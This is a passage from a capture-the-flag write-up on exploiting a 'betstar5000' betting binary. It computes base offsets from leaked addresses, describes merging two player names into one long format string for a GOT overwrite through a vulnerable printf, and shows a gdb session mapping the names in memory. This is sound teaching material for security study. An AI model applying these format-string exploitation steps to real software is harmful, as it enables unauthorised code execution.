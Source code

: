 A bit of python math:

```
>>> hex(0x5655605c - 0x56555000)
'0x105c'
>>> hex(0xf7fb55c0 - 0xf7ddd000)
'0x1d85c0'
```

## Setting up the fmt string

Now that we have the infoleaks, the only thing left is to set up the format strings. However in order to do this, we will need to jump through some hoops first. When I was trying to land this bug, I had some issues with the size constraints on the format string. In order to get the amount of characters to the vulnerable `printf` in order to do the got overwrite properly, I had to exploit some other bugs. Essentially we will merge two names together, to give us one large name which will act us our format string.

First let's take a look at the memory layout of the names, so we can see exactly what the issues are:

```
gef➤  r
Starting program: /home/guyinatuxedo/Desktop/betstar/betstar5000
Welcome to the ultimate betting service.
Enter the amount of players: 0
Alright, now let's start!
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
3
Welcome new player!
Please enter your name: 00000000000000000

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
3
Welcome new player!
Please enter your name: 11111111111111111

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
3
Welcome new player!
Please enter your name: 22222222222222222

1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
3
Welcome new player!
Please enter your name: 33333333333333333

1. Play a round
2. View scores
```